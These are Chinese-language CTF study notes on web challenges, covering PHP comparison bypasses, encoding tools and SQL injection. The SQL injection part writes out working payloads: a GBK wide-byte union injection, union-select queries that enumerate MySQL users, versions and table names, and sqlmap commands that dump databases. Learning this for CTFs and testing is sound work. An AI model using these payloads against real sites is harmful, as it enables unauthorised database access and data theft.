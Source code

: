 
## 5. 代码审计

需要多次动态调试来尝试，以及要关注里面出现的函数，出现在关键位置的函数一般都是有用的，搜索一下有没有相关的漏洞。

还有一些和数据处理有关的绕过，如md5函数结果相等（0ed+）的比较，以及strcmp(array,string)=null，除了遇到时多百度之外，平时也需要多积累到时候才能想到。

还有GET参数构造的时候如果传入的是数组要记得加[]，？txt[]=[1,2,3]，如果填?txt=[1,2,3]似乎不会被当做array处理。

## 6.编码

JS的几种编码（如JSFUCK）都可以在浏览器F12之后的控制台执行，这样可以省去找解密网站的时间。

html编码，base64编码，url编码等等都可以在burpsuite上的decoder栏解决，但是发现burpsuite有一点不好就是中文不能显示，不知道是不是字符编码没有配置好，找到一个网址：

https://emn178.github.io/online-tools/base64_decode.html

可以解好多种加密，界面也很简洁。

## 7.SQL注入

```

a>对一个注入语句记个笔记：
 
%df' union select 1,database() %23 %df' union select 1,string from sql5.key %23
 
%df是在编码为gbk的时候用于宽字节注入的；%23就是#，但是用#不能通过；还有可以直接用 union select 字段名 from 数据库名.表名 的方式获取字段的值。
 
b>对用sqlmap进行手工注入的一些步骤记个笔记首先找到可以注入的点，比如找到网页的某个动态页面是可以注入用来显示信息的，然后将这个url用sqlmap来暴库爆表。
 
python sqlmap.py -u "url" --level 3 --batch --dbs python sqlmap.py -u "url" --level 3 --batch -D ctf --tables python sqlmap.py -u "url" --level 3 --batch -D ctf -T flag --columns --dump
 
–batch sqlmap不会询问你输入 全部默认确定
 
–level 3 指定等级，大于等于3的时候会涉及到http头注入的Referer字段
 
–（两个-）符号用于查询，比如–dbs用于查询所有的数据库，–tables用于查询所有的表，-（一个-）符号用于指定，比如-D ctf用于指定查询的是ctf数据库，-T flag用于指定查询的是flag表，–dump可以用来将表中字段的值显示出来。
 
c>还有一些用union select来获得数据库信息的，链接
 
http://www.2cto.com/article/201208/151503.html
 
讲得很全面。

```

```

1. @@version() MYSQL版本 
2. @@database() 当前数据库 
3. @@user() 当前用户 
4. @@datadir 当前数据库路径 
5. @@version_compile_os 操作系统版本
 
1. concat(str1,str2,...) 没有分隔符地连接字符串 
2. concat_ws(separator,str1,str2,...) 用分隔符连接字符串 
3. group_concat(str1,str2,...) 用逗号分隔字符串
 
1. 查数据库名，用户名 
union select 1,2,concat(user(),database(),version()),4,……,N -- 
（最后--用于注释掉后面sql语句避免出错）得到数据库名 
2. 查表名： union select group_concat(0x0a,table_name),2
 from information_schema.tables 
```